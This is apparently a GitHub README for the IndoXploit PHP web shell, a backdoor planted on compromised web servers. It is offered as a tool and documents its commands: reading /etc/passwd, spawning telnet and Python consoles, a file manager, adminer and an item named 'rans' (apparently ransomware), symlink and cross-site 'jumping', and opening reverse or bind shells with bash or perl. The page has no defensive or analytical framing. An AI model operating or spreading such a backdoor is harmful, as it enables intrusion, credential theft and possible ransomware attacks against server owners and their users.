 ## IndoXploit-Shell ejejeje
```
                
                ___  __   __        ___           
          |  | |__  |__) /__` |__| |__  |    |    
          |/\| |___ |__) .__/ |  | |___ |___ |___ 
                                       
             
                     IndoXploit Shell
                 Tools recoded by flux10n

         [?] Usage login to shell: shell.php?login 
                 Copyright © 2022 Flux10n

```

## Command

- <b><i>Read File</i></b>
```
rf [filenane]
rf /etc/passwd
```

- <b><i>Spawn File</i></b>
```
spawn webconsole
spawn cgitelnet1
spawn cgitelnet2
spawn cgipy
spawn soc
spawn rans
spawn adminer
spawn LRE
spawn fm
phpinfo
```

- <b><i>Jumping</i></b>
```
Usage: jumping
```

- <b><i>Spawn File</i></b>
```
Usage: idxconfig
```

- <b><i>Spawn File</i></b>
```
Usage: symlink
```

- <b><i>Krdp</i></b>
```
Usage: krdp
```

- <b><i>Logout From Shell</i></b>
```
Usage: logout
```

- <b><i>Kill Backdoor</i></b>
```
Usage: killme
```

- <b><i>Reverse Shell [Backconnect]</i></b>
```
usage: rvr bc [IP] [PORT] [TYPE]
```
Example:
```
rvr bc 127.0.0.1 1337 bash
rvr bc 127.0.0.1 1337 perl
```

- <b><i>Bind Port</i></b>
```
usage: rvr bp [PORT] [TYPE]
```
Example:
```
rvr bp 1337 perl
```

